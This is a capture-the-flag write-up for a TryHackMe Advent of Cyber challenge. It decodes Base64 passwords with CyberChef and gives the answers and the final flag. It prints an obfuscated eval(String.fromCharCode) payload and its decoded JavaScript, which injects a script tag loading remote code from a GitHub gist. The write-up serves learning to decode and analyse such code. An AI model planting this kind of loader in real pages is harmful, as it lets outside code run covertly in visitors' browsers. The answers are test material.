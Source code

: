 ```yaml
---
description: Encoding
---
```


# Elf McEager becomes CyberElf

## Video

{% embed url="https://www.youtube.com/watch?v=l0ZCyfA75ZE" %}

## Challenge

### What is the password to the KeePass database?

![](../.gitbook/assets/image%20%28327%29.png)

{% embed url="https://gchq.github.io/CyberChef/" %}

```javascript
dGhlZ3JpbmNod2FzaGVyZQ==
```

![](../.gitbook/assets/image%20%28336%29.png)

{% hint style="success" %}
thegrinchwashere
{% endhint %}

### What is the encoding method listed as the 'Matching ops'?

![](../.gitbook/assets/image%20%28332%29.png)

{% hint style="success" %}
Base64
{% endhint %}

### What is the decoded password value of the Elf Server?

![](../.gitbook/assets/image%20%28329%29.png)

![](../.gitbook/assets/image%20%28333%29.png)

{% hint style="success" %}
sn0wM4n!
{% endhint %}

### What is the decoded password value for ElfMail?

![](../.gitbook/assets/image%20%28328%29.png)

![](../.gitbook/assets/image%20%28335%29.png)

{% hint style="success" %}
ic3Skating!
{% endhint %}

### Decode the last encoded value. What is the flag?

![](../.gitbook/assets/image%20%28334%29.png)

```text
eval(String.fromCharCode(118, 97, 114, 32, 115, 111, 109, 101, 115, 116, 114, 105, 110, 103, 32, 61, 32, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 114, 101, 97, 116, 101, 69, 108, 101, 109, 101, 110, 116, 40, 39, 115, 99, 114, 105, 112, 116, 39, 41, 59, 32, 115, 111, 109, 101, 115, 116, 114, 105, 110, 103, 46, 116, 121, 112, 101, 32, 61, 32, 39, 116, 101, 120, 116, 47, 106, 97, 118, 97, 115, 99, 114, 105, 112, 116, 39, 59, 32, 115, 111, 109, 101, 115, 116, 114, 105, 110, 103, 46, 97, 115, 121, 110, 99, 32, 61, 32, 116, 114, 117, 101, 59, 115, 111, 109, 101, 115, 116, 114, 105, 110, 103, 46, 115, 114, 99, 32, 61, 32, 83, 116, 114, 105, 110, 103, 46, 102, 114, 111, 109, 67, 104, 97, 114, 67, 111, 100, 101, 40, 49, 48, 52, 44, 32, 49, 48, 52, 44, 32, 49, 49, 54, 44, 32, 49, 49, 54, 44, 32, 49, 49, 50, 44, 32, 49, 49, 53, 44, 32, 53, 56, 44, 32, 52, 55, 44, 32, 52, 55, 44, 32, 49, 48, 51, 44, 32, 49, 48, 53, 44, 32, 49, 49, 53, 44, 32, 49, 49, 54, 44, 32, 52, 54, 44, 32, 49, 48, 51, 44, 32, 49, 48, 53, 44, 32, 49, 49, 54, 44, 32, 49, 48, 52, 44, 32, 49, 49, 55, 44, 32, 57, 56, 44, 32, 52, 54, 44, 32, 57, 57, 44, 32, 49, 49, 49, 44, 32, 49, 48, 57, 44, 32, 52, 55, 44, 32, 49, 48, 52, 44, 32, 49, 48, 49, 44, 32, 57, 55, 44, 32, 49, 49, 56, 44, 32, 49, 48, 49, 44, 32, 49, 49, 48, 44, 32, 49, 49, 52, 44, 32, 57, 55, 44, 32, 49, 48, 53, 44, 32, 49, 50, 50, 44, 32, 57, 55, 44, 32, 52, 55, 41, 59, 32, 32, 32, 118, 97, 114, 32, 97, 108, 108, 115, 32, 61, 32, 100, 111, 99, 117, 109, 101, 110, 116, 46, 103, 101, 116, 69, 108, 101, 109, 101, 110, 116, 115, 66, 121, 84, 97, 103, 78, 97, 109, 101, 40, 39, 115, 99, 114, 105, 112, 116, 39, 41, 59, 32, 118, 97, 114, 32, 110, 116, 51, 32, 61, 32, 116, 114, 117, 101, 59, 32, 102, 111, 114, 32, 40, 32, 118, 97, 114, 32, 105, 32, 61, 32, 97, 108, 108, 115, 46, 108, 101, 110, 103, 116, 104, 59, 32, 105, 45, 45, 59, 41, 32, 123, 32, 105, 102, 32, 40, 97, 108, 108, 115, 91, 105, 93, 46, 115, 114, 99, 46, 105, 110, 100, 101, 120, 79, 102, 40, 83, 116, 114, 105, 110, 103, 46, 102, 114, 111, 109, 67, 104, 97, 114, 67, 111, 100, 101, 40, 52, 57, 44, 32, 52, 57, 44, 32, 49, 48, 48, 44, 32, 53, 49, 44, 32, 53, 48, 44, 32, 52, 57, 44, 32, 53, 48, 44, 32, 53, 50, 44, 32, 53, 50, 44, 32, 57, 57, 44, 32, 53, 50, 44, 32, 49, 48, 48, 44, 32, 53, 52, 44, 32, 53, 52, 44, 32, 53, 53, 44, 32, 53, 50, 44, 32, 53, 50, 44, 32, 53, 52, 44, 32, 49, 48, 48, 44, 32, 57, 56, 44, 32, 49, 48, 50, 44, 32, 49, 48, 48, 44, 32, 53, 55, 44, 32, 57, 55, 44, 32, 53, 49, 44, 32, 53, 48, 44, 32, 53, 55, 44, 32, 53, 54, 44, 32, 57, 55, 44, 32, 53, 54, 44, 32, 53, 54, 44, 32, 57, 56, 44, 32, 53, 54, 41, 41, 32, 62, 32, 45, 49, 41, 32, 123, 32, 110, 116, 51, 32, 61, 32, 102, 97, 108, 115, 101, 59, 125, 32, 125, 32, 105, 102, 40, 110, 116, 51, 32, 61, 61, 32, 116, 114, 117, 101, 41, 123, 100, 111, 99, 117, 109, 101, 110, 116, 46, 103, 101, 116, 69, 108, 101, 109, 101, 110, 116, 115, 66, 121, 84, 97, 103, 78, 97, 109, 101, 40, 34, 104, 101, 97, 100, 34, 41, 91, 48, 93, 46, 97, 112, 112, 101, 110, 100, 67, 104, 105, 108, 100, 40, 115, 111, 109, 101, 115, 116, 114, 105, 110, 103, 41, 59, 32, 125));

```

![](../.gitbook/assets/image%20%28337%29.png)

```javascript
var somestring = document.createElement('script');
somestring.type = 'text/javascript';
somestring.async = true;
somestring.src = String.fromCharCode(104, 104, 116, 116, 112, 115, 58, 47, 47, 103, 105, 115, 116, 46, 103, 105, 116, 104, 117, 98, 46, 99, 111, 109, 47, 104, 101, 97, 118, 101, 110, 114, 97, 105, 122, 97, 47);
var alls = document.getElementsByTagName('script');
var nt3 = true;
for (var i = alls.length; i--;) {
	if (alls[i].src.indexOf(String.fromCharCode(49, 49, 100, 51, 50, 49, 50, 52, 52, 99, 52, 100, 54, 54, 55, 52, 52, 54, 100, 98, 102, 100, 57, 97, 51, 50, 57, 56, 97, 56, 56, 98, 56)) > -1) {
		nt3 = false;
	}
}
if (nt3 == true) {
	document.getElementsByTagName('head')[0].appendChild(somestring);
}
```

> String.fromCharCode\(104, 104, 116, 116, 112, 115, 58, 47, 47, 103, 105, 115, 116, 46, 103, 105, 116, 104, 117, 98, 46, 99, 111, 109, 47, 104, 101, 97, 118, 101, 110, 114, 97, 105, 122, 97, 47\);
>
> https://gist.github.com/heavenraiza/

![](../.gitbook/assets/image%20%28331%29.png)

![](../.gitbook/assets/image%20%28340%29.png)

![](../.gitbook/assets/image%20%28338%29.png)

{% hint style="success" %}
THM{657012dcf3d1318dca0ed864f0e70535}
{% endhint %}

